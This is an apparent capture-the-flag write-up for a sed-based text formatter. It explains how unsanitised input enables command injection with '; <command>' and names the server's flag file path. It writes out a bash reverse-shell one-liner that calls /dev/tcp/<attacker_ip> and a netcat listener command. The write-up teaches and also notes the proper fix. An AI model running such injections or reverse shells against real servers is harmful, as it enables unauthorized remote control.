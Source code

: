 # Solution
The website is pretty simple. The only places accepting user input are the 2 textboxes. The website informs us that the format rule uses `sed`'s syntax. `sed` is a command line utility for manipulating text. And indeed, if we provide the simple rule `s/a/b/` with input text `a`, we get the expected output of `b`.

The vulnerability can be discovered by realising that the actual `sed` utility is being used to format the text. The syntax hint is 1 way to reach that conclusion. Another is to play around with invalid format rules. Because they are invalid, `sed` will throw an error which is shown in the browser. To reiterate, the text replace feature is implemented by spawning a new process which executes the actual `sed` command. The code simply appends the user's format rule to the command, without any attempt at sanitisation. The resulting vulnerability is called a command injection. Meaning, we can craft our input such that shell commands are injected and executed by the server. Thus, we can make the server execute any command with a little Bash-foo. The correct approach to prevent this vulnerability would have been to actually implement a text replacement feature with `sed`'s syntax. A blacklist and sanitisation are not good solutions as making them watertight is hard.

Making Bash execute multiple commands with a single line of input can with these symbols: `&&`, `;`, `||`, `$(...)`, etc. Meanwhile, `f'sed -e {replace_rule}'` is the python server code used to build the command for the subprocess. It is now simple to see how this can be abused. Let us use `;`, which is a separator for sequential commands. We can execute any shell command by providing the format rule `; <command>` on the website.

The flag can be found in the home directory of the current user (`/home/webadmin/flag.txt`).

The easiest way to read the flag is by `cat`ing it. However, part 2 of this challenge requires an interactive session. A reverse shell can give us this. A reverse shell is a technique in which we send a command to the victim, forcing it to turn around (reverse) and open a connection to our computer. The advantage over a forward shell is that contacting a victim's computer is usually hard as they are behind a firewall which we cannot configure. On the other hand, we *can* configure our own firewall to allow the victim's connection to come through.

Setting up a reverse shell requires 2 steps:
1. Forcing the victim to open a connection to us. Opening a TCP connection using Bash can be done with the following command: `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<netcat_server_port> 0>&1'`.
2. Listening for the incoming connection. The netcat utility can be used to listen for incoming connections on our own machine: `nc -lnvp <listen_port>`.